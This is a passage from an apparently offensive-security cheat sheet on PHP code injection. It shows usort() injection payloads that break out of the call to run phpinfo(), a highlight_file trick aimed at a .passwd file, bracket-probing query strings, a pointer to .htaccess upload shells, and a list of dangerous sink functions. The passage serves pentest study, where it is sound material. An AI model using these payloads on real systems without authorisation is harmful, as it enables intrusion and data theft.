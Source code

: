 **Other option** is to add to the string the execution of the command: _'.highlight\_file\('.passwd'\).'_

**Other option** \(if you have the internal code\) is to modify some variable to alter the execution: _$file = "hola"_

### **Code execution with usort\(\)**

This function is used to sort an array of items using an specific function.  
To abuse this function:

```php
<?php usort(VALUE, "cmp"); #Being cmp a valid function ?>
VALUE: );phpinfo();#

<?php usort();phpinfo();#, "cmp"); #Being cmp a valid function ?>
```

```php
<?php
function foo($x,$y){
    usort(VALUE, "cmp");
}?>
VALUE: );}[PHP CODE];#

<?php
function foo($x,$y){
    usort();}phpinfo;#, "cmp");
}?>
```

You can also use **//** to comment the rest of the code.

To discover the number of parenthesis that you need to close:

* `?order=id;}//`: we get an error message \(`Parse error: syntax error, unexpected ';'`\). We are probably missing one or more brackets.
* `?order=id);}//`: we get a **warning**. That seems about right.
* `?order=id));}//`: we get an error message \(`Parse error: syntax error, unexpected ')' i`\). We probably have too many closing brackets.

### **Code execution via .httaccess**

If you can **upload** a **.htaccess**, then you can **configure** several things and even execute code \(configuring that files with extension .htaccess can be **executed**\).

Different .htaccess shells can be found [here](https://github.com/wireghoul/htshells)

## PHP Static analysis

Look if you can insert code in calls to these functions \(from [here](https://www.youtube.com/watch?v=SyWUsN0yHKI&feature=youtu.be)\):

```php
exec, shell_exec, system, passthru, eval, popen
unserialize, include, file_put_cotents
$_COOKIE | if #This mea
```
